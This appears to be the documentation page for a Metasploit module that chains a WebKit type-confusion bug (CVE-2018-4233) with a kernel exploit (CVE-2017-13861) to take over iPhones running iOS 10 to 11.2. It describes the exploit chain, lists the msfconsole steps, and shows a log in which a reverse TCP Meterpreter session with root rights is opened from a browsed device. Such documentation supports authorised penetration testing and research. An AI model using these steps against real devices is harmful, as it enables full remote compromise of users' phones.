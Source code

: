 ## Description

This module exploits a type confusion bug in the Javascript Proxy object in WebKit. The DFG JIT does not take into account that, through the use of a Proxy, it is possible to run arbitrary JS code during the execution of a CreateThis operation. This makes it possible to change the structure of e.g. an argument without causing a bailout, leading to a type confusion (CVE-2018-4233).  

The type confusion leads to the ability to allocate fake Javascript objects, as well as the ability to find the address in memory of a Javascript object.  This allows us to construct a fake JSCell object that can be used to read and write arbitrary memory from Javascript.  The module then uses a ROP chain to write the first stage shellcode into executable memory within the Safari process and kick off its execution.  

The first stage maps the second stage macho (containing CVE-2017-13861) into executable memory, and jumps to its entrypoint. The CVE-2017-13861 async_wake exploit leads to a kernel task port (TFP0) that can read and write arbitrary kernel memory. The processes credential and sandbox structure in the kernel is overwritten and the meterpreter payloads code signature hash is added to the kernels trust cache, allowing Safari to load and execute the (self-signed) meterpreter payload.

## Vulnerable Application

The exploit should work all 64-bit devices (iPhone 5S and newer) running iOS 10 up to iOS 11.2.

## Verification Steps

 * Start msfconsole
 * `use exploit/apple_ios/browser/webkit_createthis`
 * `set LHOST` and `SRVHOST` as appropriate
 * exploit
 * Browse to the given URL with a vulnerable device from Safari
 * Note that the payload is specially created for this exploit, due to sandbox
   limitations that prevent spawning new processes.

## Scenarios

### 64bit iPhone 5S running iOS 10.2.1

```
msf exploit(apple_ios/browser/webkit_createthis) > exploit
[*] Started reverse TCP handler on 192.168.1.51:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.51:8080/
[*] Server started.
[*] 192.168.1.34     webkit_createthis - Requesting / from Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D27 Safari/602.1
[*] 192.168.1.34     webkit_createthis - Requesting /exploit from Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D27 Safari/602.1
[+] 192.168.1.34     webkit_createthis - Sent async_wake exploit
[+] 192.168.1.34     webkit_createthis - Sent sha1 iOS 10 payload
[*] Meterpreter session 1 opened (192.168.1.51:4444 -> 192.168.1.34:49211) at 2019-04-15 11:34:01 +0200

msf exploit(apple_ios/browser/webkit_createthis) > sessions

Active sessions
===============

  Id  Name  Type                           Information                                  Connection
  --  ----  ----                           -----------                                  ----------
  1         meterpreter aarch64/apple_ios  uid=0, gid=0, euid=0, egid=0 @ 192.168.1.34  192.168.1.51:4444 -> 192.168.1.34:49211 (192.168.1.34)

msf exploit(apple_ios/browser/webkit_createthis) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
/System/Library/Frameworks/WebKit.framework/XPCServices/com.apple.WebKit.WebContent.xpc
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

